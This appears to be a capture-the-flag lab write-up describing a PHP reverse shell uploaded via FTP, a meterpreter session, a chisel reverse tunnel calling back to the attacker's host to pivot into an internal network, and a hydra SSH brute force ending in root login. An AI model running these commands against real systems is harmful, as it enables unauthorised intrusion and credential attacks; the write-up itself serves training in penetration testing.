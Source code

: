 We put a php-reverse-shell through ftp and opened in the browser to activate.

Inside the machine after getting a better shell and a meterpreter: cause why not?
```bash
su ftpuser>ftpuser
ftpuser its a root privileged account.
```

we can nmap the other network

## 172.16.50.222 
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

> We can:
	run autoroute -s 172.16.50.0/24
	in the meterpreter session.
	'I will try with chisel'
	

> GOT IT!


## Pivoting Networking manually with Chisel

In Kali:
```bash
/opt/chisel/chisel server -p 8001 --reverse
```

In the Target:
```bash
./chisel client 10.13.37.11:8001 R:127.0.0.1:2222:172.16.50.222:22
```

>  I opened my port 2222 to receive the connection of the targets port 22
> So now I can access in my kali through the localhost:2222


In Kali:
```bash
nmap localhost -p 2222
PORT     STATE SERVICE
2222/tcp open  EtherNetIP-1

hydra -L /usr/share/ncrack/minimal.usr -P /usr/share/ncrack/minimal.usr localhost -s 2222 ssh
[2222][ssh] host: localhost   login: root   password: root
	
ssh root@localhost -p 2222 
```

- root@xubuntu:~# cat .flag.txt

> Pwned!
